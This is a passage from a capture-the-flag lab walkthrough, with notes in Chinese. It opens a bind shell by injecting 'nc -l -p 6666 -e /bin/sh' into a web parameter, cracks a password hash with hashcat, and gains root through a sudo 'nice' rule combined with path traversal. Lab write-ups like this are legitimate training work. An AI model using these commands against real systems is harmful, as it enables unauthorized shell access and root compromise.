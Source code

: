 ### 7. bind shell
`file=;nc -l -v -p 6666 -e /bin/sh`
```
┌──(chw㉿CHW)-[~]
└─$ nc 192.168.111.101 6666   

python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@serv:/var/www/html/admin$ 
```

### ✅ Get User Flag
> 在 `/home/webadmin`找到 User flag
## Privileges Escalation
先拿到低權限 User
### 8. Hashcat
```
┌──(chw㉿CHW)-[~]
└─$ hashcat -m 500 potato.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
...
$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:dragon 
...
```
> `webadmin`:`dragon`

### 9. Sudo -l
```
┌──(chw㉿CHW)-[~]
└─$ ssh webadmin@192.168.111.101 
webadmin@192.168.111.101's password: 

webadmin@serv:~$ sudo  -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*

webadmin@serv:~$ sudo nice /bin/sh
Sorry, user webadmin is not allowed to execute '/usr/bin/nice /bin/sh' as root on serv.
```
使用 /bin/nice 執行
```
webadmin@serv:~$ /bin/nice /bin/bash
webadmin@serv:~$ id
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
webadmin@serv:~$ ls /notes/
clear.sh  id.sh
webadmin@serv:~$ sudo /bin/nice /notes/id.sh
uid=0(root) gid=0(root) groups=0(root)
```
目標： 使用 `/bin/nice` 執行 Sell 就能拿到 root 權限
(`sudo -l` 只會驗證 `/notes/*` 參數)
```
webadmin@serv:~$ sudo /bin/nice /notes/../bin/bash
root@serv:/home/webadmin# id
uid=0(root) gid=0(root) groups=0(root)
root@serv:/home/webadmin# cd /root
root@serv:~# ls
proof.txt  root.txt  snap
```